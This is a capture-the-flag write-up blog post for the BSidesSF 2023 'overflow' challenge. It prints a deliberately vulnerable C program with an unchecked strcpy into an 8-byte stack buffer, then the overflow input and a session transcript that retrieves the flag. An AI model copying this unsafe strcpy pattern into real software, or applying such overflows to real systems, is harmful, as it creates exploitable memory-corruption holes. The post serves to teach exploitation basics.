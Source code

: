 ```yaml
---
title: 'BSidesSF 2023 Writeups: overflow (simple stack-overflow challenge)'
author: ron
layout: post
categories:
- bsidessf-2023
- ctfs
permalink: "/2023/bsidessf-2023-writeups--overflow--simple-stack-overflow-challenge-"
date: '2023-04-23T17:08:44-07:00'

---
```


Overflow is a straight-forward buffer overflow challenge that I copied from
the Hacking: Art of Exploitation [examples CD](https://github.com/intere/hacking).
I just added a flag. Full source is [here](https://github.com/BSidesSF/ctf-2023-release/tree/main/overflow).

<!--more-->

## Write-up

The source and binary are available, so the user can examine them. But they're
also fairly simple:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <errno.h>

int main(int argc, char *argv[]) {
	int value = 5;
	char buffer_one[8], buffer_two[8];

	strcpy(buffer_one, "one"); /* put "one" into buffer_one */
	strcpy(buffer_two, "two"); /* put "two" into buffer_two */

	printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

	printf("\n[STRCPY] copying %d bytes into buffer_two\n\n",  strlen(argv[1]));
	strcpy(buffer_two, argv[1]); /* copy first argument into buffer_two */

	printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);

  /* Added for the CTF! */
  if(!strcmp(buffer_one, "hacked")) {
    char buffer[64];
    FILE *f = fopen("/home/ctf/flag.txt", "r");

    if(!f) {
      printf("\n\nFailed to open flag.txt: %s\n", strerror(errno));

      exit(1);
    }

    fgets(buffer, 63, f);
    printf("\n\nCongratulations! %s\n", buffer);
    exit(0);
  } else {
    printf("\n\nPlease set buffer_one to \"hacked\"!\n");
  }
}
```

Basically, if you write more than 8 bytes into `buffer_two`, it overflows into
`buffer_one`. So the solution is to use the string `aaaaaaaahacked`:

```
$ nc -v localhost 4445
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to ::1:4445.
Hey, I grabbed this code from Art of Exploitation. Can you set the value of
buffer_one to "hacked"?

Run it like:

./overflowme hello
ctf@8f0a7eff015b:~$ ./overflowme aaaaaaaahacked
./overflowme aaaaaaaahacked
[BEFORE] buffer_two is at 0xffbb03b8 and contains 'two'
[BEFORE] buffer_one is at 0xffbb03c0 and contains 'one'
[BEFORE] value is at 0xffbb03c8 and is 5 (0x00000005)

[STRCPY] copying 14 bytes into buffer_two

[AFTER] buffer_two is at 0xffbb03b8 and contains 'aaaaaaaahacked'
[AFTER] buffer_one is at 0xffbb03c0 and contains 'hacked'
[AFTER] value is at 0xffbb03c8 and is 5 (0x00000005)


Congratulations! CTF{overflow-successful}
```

That's it!
